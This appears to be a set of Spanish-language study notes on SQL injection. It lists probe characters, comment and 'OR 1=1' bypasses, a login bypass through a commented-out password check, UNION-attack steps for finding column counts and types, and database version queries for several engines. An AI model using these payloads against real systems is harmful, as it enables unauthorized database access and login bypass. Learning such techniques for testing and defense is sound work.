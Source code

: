 ## ATAQUE: SQL INJECTION

#### IDENTIFICAR LA VULNERABILIDAD

' | simbolo comun para testear si existe SQLi o no.

" | simbolo comun para testear si existe SQLi o no.

' -- | simbolo comun para testear si existe SQLi o no

#### BYPASS COMUNES

-- | dentro del lenguaje de SQL query, sirve para comentar de manera que todo lo que este despues de los simbolos, se ignora.
ex: SELECT [columns] FROM products WHERE category = 'Gifts'--' AND released = 1

'#' | dentro del lenguaje de SQL query "#", sirve para comentar de manera que todo lo que este despues del simbolo, se ignora.
ex: SELECT [columns] FROM products WHERE category = 'Gifts'#' AND released = 1

' OR 1=1-- | sirve para crear una consulta a un resultado booleano, de manera que el inicio de la consulta es leido, el resto no ya que
es siempre TRUE.
ex: SELECT [columns] FROM products WHERE category = 'Gifts' OR 1=1-- AND released = 1

USER-- | cuando se tiene un usuario se podria probar la vulnerabilidad tratando de ver si hace bypass sin ingresar la contrasena.

#### UNION ATTACK

pre-req: numero de columnas y data type de cada columna

_COMO SABER EL NUMERO DE COLUMNAS ?

metodo_1: ' ORDER BY 1--
metodo_2: ' UNION SELECT NULL--

_COMO SABER EL DATA TYPE DE UNA COLUMNA ?

> Microsoft, MySQL & PostgreSQL

' UNION SELECT 'a',NULL,NULL,NULL--
' UNION SELECT NULL,'a',NULL,NULL-- | se tiene que hacer iterativo cambiando los campos para saber que tipo son.

> Oracle

' UNION SELECT 'a','a' from DUAL--

_IDENTIFICAR INFORMACION DEL MOTOR DE BASE DE DATOS [TIPO/VERSION] 

  NOTA: debe ser UNION attack. numero de columnas se respeta.

Microsoft >> SELECT @@version \
MySQL >> SELECT @@version \
Oracle >> SELECT banner FROM v$version | SELECT version FROM v$instance \
PostgreSQL >> SELECT version()



